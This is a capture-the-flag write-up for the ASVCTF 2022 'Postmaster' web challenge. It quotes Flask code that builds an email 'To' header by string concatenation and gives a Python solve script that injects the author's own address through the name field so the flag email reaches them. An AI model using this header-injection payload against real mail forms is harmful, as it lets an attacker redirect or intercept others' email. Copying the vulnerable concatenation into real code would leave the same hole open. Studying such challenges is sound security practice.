 # ASVCTF 2022 - Postmaster Writeup
- Type - Web
- Name - Postmaster
- Points - 300

## Description
```markdown
Now introducing: email-based flag delivery.

https://postmaster.boats/
```

## Writeup
Accessing the site revealed another simple page:

<img src="site.png" width="400px">

Clicking on the link to Source revealed the source code, found [here](source.py). The important part is this:

```python
@app.route('/send_email', methods=['POST'])
def send_email():
    name = flask.request.form['name']
    email_address = flask.request.form['email']

    if '\n' in name or '\r' in name:
        return flask.redirect('/?m=badname')
    if not EMAIL_REGEX.match(email_address):
        return flask.redirect('/?m=bademail')

    mail = MIMEMultipart('alternative')
    mail['From'] = 'postmaster.boats <noreply@postmaster.boats>'
    mail['To'] = name + ' <' + email_address + '>'
    if email_address == 'admin@email.invalid':
        mail['Subject'] = 'Flag'
        mail.attach(MIMEText(app.config['FLAG'], 'plain'))
    else:
        mail['Subject'] = 'Sorry, try again'
        mail.attach(MIMEText('No flag for you :(', 'plain'))

    smtp_client = smtplib.SMTP(timeout=2)
    smtp_client.connect('localhost')
    smtp_client.send_message(mail)
```

The gist is that sending a POST request to the `/send_email` endpoint with two parameters, `name` and `email`, will cause the system to send an email through an SMTP server to the email address specified with the name attached. To get the flag, the email needs to be set to `admin@email.invalid` - the problem is, if that's the email, then we will never see the flag since we don't own that email. 

Upon closer inspection, one line stands out - `mail['To'] = name + ' <' + email_address + '>'`. The `name` and `email_address` parameters are piped directly into "To" SMTP header, and the only validation on `name` is no newlines (`/n`, `/r`). This means we can insert a name such as `Test <myemail@gmail.com>` and then the email as `admin@email.invalid`, making the "To" line `Test <myemail@gmail.com> <admin@email.invalid>`. This will send the email to us, but the `email` parameter will still give us the flag. 

### Solve Script
Here is my [automated exploit](solve.py) in Python:

```python
import requests
from urllib.parse import urlencode

# define payload
payload = urlencode({
        "name": "Legoclones <INSERT_EMAIL_HERE@gmail.com> ",
        "email": "admin@email.invalid",
    })

# send request and get result
result = requests.request("POST", "https://postmaster.boats/send_email", data=payload, headers={'Content-Type': 'application/x-www-form-urlencoded'})

# check response
if "Email sent!" in result.text:
    print("Check your email for the flag")
else:
    print("Something went wrong")
    print(result.text)
```

Email I received (in my spam folder):

<img src="flag.png" width="400px">

**Flag:** `ASV{y0U_hAd_Me_@_EHLO}`